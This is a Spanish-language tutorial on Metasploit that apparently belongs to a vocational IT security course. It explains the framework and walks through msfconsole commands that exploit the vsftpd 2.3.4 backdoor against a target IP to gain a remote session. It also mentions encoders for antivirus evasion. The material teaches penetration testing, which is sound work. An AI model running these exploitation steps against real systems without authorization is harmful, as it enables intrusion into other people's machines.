 ```yaml
---
title: "Tutorial: Metasploit"
date: 2023-01-01 9:00:00 +0100
categories: [Sistemas Microinformáticos y Redes, Seguridad Informática]
tags: [seguridad informática, smr, tutorial, seguridad activa]
img_path: /assets/img/tutorial-metasploit/
---
```


## ¿Qué es Metasploit?

Metasploit es una herramienta software muy relacionada con lo que se conoce como "pruebas de intrusión" o "Pentesting". Como ya se ha estudiado previamente, estas pruebas se realizan en auditorías de sistemas informáticos en red, para saber cómo alguien con malas intenciones podría manipular nuestra red o nuestros sistemas en red. Mediante el uso de herramientas de pruebas de penetración, los profesionales de la seguridad informática pueden, en cualquier etapa de desarrollo o implementación, examinar redes y aplicaciones en busca de fallos y vulnerabilidades que comprometan al sistema.

Una de esas herramientas de Pentesting más conocidas es el proyecto Metasploit. Metasploit es un software de código abierto, construido en Ruby, y actualmente propiedad de la empresa de software de seguridad Rapid7. La herramienta está enfocada a la realización de pruebas para  auditores de seguridad y equipos Red Team y Blue Team (entre los profesionales de la seguridad informática, el Red Team es elequipo ofensivo o encargado del hacking ético, que hace pruebas de intrusión, y el BlueTeam es el equipo que lleva a cabo la securización y toda la parte defensiva).

<iframe width="560" height="315" src="https://www.youtube.com/embed/-B7UBbhewuw" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

## Características principales de Metasploit

Es una herramienta muy completa que tiene muchísimos "exploits", es decir, software para atacar a vulnerabilidades conocidas de otro software. En estos exploits, se pueden cargar otros módulos, llamados payloads, que son los códigos que permiten explotar dichas vulnerabilidades de distintas formas.

Dispone de distintos tipo de módulos, por ejemplo, los encoders, que son una especie de códigos de cifrado para evasión de antivirus o sistemas de seguridad perimetral.
Otra de las ventajas de este framework es que nos permite interactuar con herramientas externas, como Nmap o Nessus, útiles para descubrir información sobre los sistemas a los que se desee "atacar" o "auditar".

Aunque nosotros usaremos Metasploit desde KaliLinux (en Kali Linux ya viene instalado Metasploit Pro) se trata de un software multiplataforma y gratuito (aunque tiene una versión de pago, en la que se ofrecen exploits ya desarrollados). De todas formas, la versión gratuita es bastante amplia, y muy interesante porque contiene todas las vulnerabilidades públicas.
En conclusión, se trata de una plataforma imprescindible para todos los analistas de seguridad, esencial para descubrir vulnerabilidades ocultas utilizando diversas herramientas y utilidades. Esta herramienta  permite ponernos en la piel de un pirata informático y utilizar las mismas técnicas para explorar e infiltrarse en redes y servidores.

![Diagrama de una arquitectura típica de Metasploit](metasploit-guide-set-up.png)
_Diagrama de una arquitectura típica de Metasploit_

## Instalar Metasploit

```console
#apt install metasploit-framework
```

## Primeros pasos con Metasploit

Los pasos que debemos realizar para hacer una explotación de una vulnerabilidad de una aplicación en una máquina son los pasos típicos de un “pentesting” o test de intrusión.

### Detección de vulnerabilidades

En esta fase, se realizará un escáner de puertos, utilizando la herramienta ya conocida nmap, con la que buscaremos servicios instalados en esta máquina, así como las versiones de estos servicios. Leer el artículo [Tutorial: Nmap](/posts/tutorial-nmap).

Otra opción, es utilizar nmap solo para la detección de equipos de una red y posteriormente hacer el análisis de vulnerabilidades con Nessus. Leer el artículo [Tutorial: Nessus](/posts/tutorial-nessus)

### Explotación de vulnerabilidad conocida

Iniciamos metasploit desde linea de comandos con el comando:

```console
$msfconsole
```

Buscamos en Metasploit si tiene algún EXPLOIT para esta aplicación de servidor FTP. Esto se hace con el comando `search`.

```console
>search vsftpd
```

Vemos que Metasploit tiene disponible un Exploit para esta aplicación. Una vez que nos despliegue el índice de exploits disponibles para la aplicación vsftpd, podemos usar el numero de índice del Exploit y el comando info, para obtener información detallada de este Exploit.

```console
>info 0
```

Ahora tenemos que entrar dentro del exploit, es decir, decirle a la aplicación Metasploit que vamos a utilizar dicho Exploit. Para ello, se usa el comando:

```console
>use <nombre completo del exploit>
```

Ejemplo de uso:

```console
>use exploit/unix/ftp/vsftpd_234_backdoor
```

Una vez dentro de cada exploit disponible, cada uno tiene una serie de opciones que podemos utilizar.

```console
>show options
```

Establecemos el host:

```console
>set RHOSTS <dirección IP objetivo>
```

Ejecutamos el exploit:

```console
>exploit
```

Si la ejecución del exploit tiene éxito nos indicará que hay una sesión abierta en la máquina atacada, es decir, hemos conseguido establecer una sesión remota desde el equipo Kali Linux a la máquina vulnerable, y estamos dentro de ella. A partir de aquí ya, podemos realizar cualquier modificación en los archivos del sistema o aplicaciones instaladas en dicha máquina con fines maliciosos.
